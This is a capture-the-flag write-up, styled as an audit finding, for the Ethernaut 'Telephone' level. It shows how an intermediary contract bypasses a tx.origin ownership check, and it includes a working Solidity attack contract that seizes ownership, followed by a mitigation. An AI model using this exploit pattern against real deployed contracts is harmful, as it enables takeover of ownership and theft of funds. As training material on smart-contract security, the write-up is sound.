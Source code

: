 #### Claim ownership of the `Telephone` contract to complete this level.

## Summary
The `Telephone::changeOwner` function gives ownership of the contract. The only required condition is `tx.origin != msg.sender` which can be easily bypassed.

```solidity
function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
        owner = _owner;
    }
}
```

## Vulnerability Detail
The only required condition is `tx.origin != msg.sender` in the `Telephone::changeOwner` functon can be easily bypassed.

The deployed malicious contract:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./ITelephone.sol";

contract TelephoneAttack {
    address public telephoneAddress;

    constructor(address _telephoneAddress) {
        telephoneAddress = _telephoneAddress;
    }

    function changeOwnerToAttackerAddress() public {
        ITelephone telephoneContract = ITelephone(telephoneAddress);

        telephoneContract.changeOwner(msg.sender);
    }
}
```

Attack scenario:
1. An attacker deploys a malicious contract `TelephoneAttack` which has an `changeOwnerToAttackerAddress()` function. 
2. The attacker calls the `changeOwnerToAttackerAddress()` function. The function itself calls the `changeOwner()` function and updates the owner of the `Telephone` contract to be the attacker.
3. The condition `tx.origin != msg.sender` is bypassed easily, since the tx.origin is not the msg.sender now.
4. The attacker is now the new owner of the contract and do whatever they want.

## Impact
High. This breaks a core contract functionality. The attacker can become the owner of the contract and can do whatever they want without any constraints.

## Code Snippet
https://github.com/danielvichinyan/ethernaut-solutions/blob/main/telephone/Telephone.sol#L12-L14

## Tools Used
Remix IDE, Manual Review

## Recommendation
Avoid using `tx.origin` for authorization. Always use `msg.sender`.
Consider using OpenZeppelin's `Ownable`.
